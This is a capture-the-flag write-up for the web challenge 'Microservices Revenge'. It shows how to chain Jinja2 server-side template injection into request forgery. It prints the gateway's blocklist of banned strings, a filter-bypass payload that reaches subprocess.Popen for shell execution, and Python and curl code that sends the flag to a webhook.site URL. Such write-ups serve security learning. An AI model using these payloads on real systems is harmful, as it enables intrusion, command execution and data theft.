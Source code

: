 # Microservices Revenge
Category: Web

## Description
I've upgraded the security of this website and added a new feature. Can you still break it?

- Junhua

[http://34.124.157.94:5005/](http://34.124.157.94:5005/)

Attachments: [dist.zip](attachments/dist.zip)

## Write-up
- This challenge appears to be a continuation of the previous [Microservices](../web-microservices/README.md) challenge.
- The flag can now only be obtained from the `/flag` endpoint of a new microservice at `rflagpage`.
- Unfortunately, direct access to `rflagpage` is not possible, and we must go through the `gateway`.
- However, specifying `flagpage` as the `service` query parameter to the `gateway` will redirect us to the `/construction` endpoint of `rflagpage`, as indicated by the specified routes.
```
routes = {
    "adminpage": "http://radminpage",
    "homepage": "http://rhomepage",
    "flagpage": "http://rflagpage/construction",
}
```
- We need to identify potential attack vectors that can be exploited to forward our request to `http://rflagpage/flag`.
- It seems that `http://rhomepage/` is vulnerable to Server-Side Template Injection (SSTI), as we can manipulate our `user` cookie to render malicious markup content, which is treated as safe HTML input.

![](solution/image1.png)

- Another attack vector we discovered is SSTI in `http://radminpage/`, where we can inject malicious markup content by manipulating the `user` cookie, as there is no input sanitization before rendering.

![](solution/image2.png)

- It is more promising to focus on the second attack vector, as we can attempt to leverage SSTI to achieve Server-Side Request Forgery (SSRF). The first attack vector primarily allows us to execute malicious client-side payloads, but it is unlikely to enable us to forward our request to `rflagpage`.
- Since `radminpage` and `rflagpage` are in the same network, we aim to exploit the second SSTI vulnerability to make a request to `http://rflagpage/flag` via `radminpage`, retrieve its content, and then send it to our webhook by appending it.
- However, there is a custom Web Application Firewall (WAF) method in the gateway called `is_sus()` that checks the `service` query parameter and the `user` cookie against a list of forbidden words.
```
banned_chars = {
    "\\",
    "_",
    "'",
    "%25",
    "self",
    "config",
    "exec",
    "class",
    "eval",
    "get",
}
```
- To bypass these checks, we can cleverly construct a payload that utilizes Jinja2 filters and additional query parameters.
- By specifying banned strings in the query parameters and utilizing Jinja2 filters in our SSTI payload, we can slowly build our payload by retrieving banned content from our query parameters.
- We can use `subprocess.Popen` which can be accessed via `"".__class__.__subclasses__` with SSTI and execute inline Python code using `python3 -c "<python code>"`.
- The Python code we aim to execute is as follows:
```
from urllib.request import urlopen
from base64 import b64encode
output = urlopen(\"http://rflagpage/flag\").read()
output = b64encode(output).decode();
urlopen(\"https://webhook.site/774fac7f-86a1-4682-a2c0-883ea13d0a6a/\" + output)"
```
- The following `curl` request contains the necessary logic to exfiltrate the flag from `http://rflagpage/flag` and send it to our webhook URL:
```
curl -b 'user={{""|attr(request|attr("args")|list|attr("pop")(1))|attr("mro")()|attr("pop")(1)|attr(request|attr("args")|list|attr("pop")(2))()|attr("pop")(343)(request|attr("args")|list|attr("pop")(3), shell=True) }}' "http://localhost:5005/?service=adminpage&__class__=0&__subclasses__=0&python%20-c%20%22from%20urllib.request%20import%20urlopen%3B%20from%20base64%20import%20b64encode%3B%20output%20%3D%20urlopen%28%5C%22http%3A%2F%2Frflagpage%2Fflag%5C%22%29.read%28%29%3B%20output%20%3D%20b64encode%28output%29.decode%28%29%3B%20urlopen%28%5C%22https%3A%2F%2Fwebhook.site%2F774fac7f-86a1-4682-a2c0-883ea13d0a6a%2F%5C%22%20%2B%20output%29%22=0"
```

Flag: `grey{55t1_bl4ck1ist_byp455_t0_S5rf_538ad457e9a85747631b250e834ac12d}`

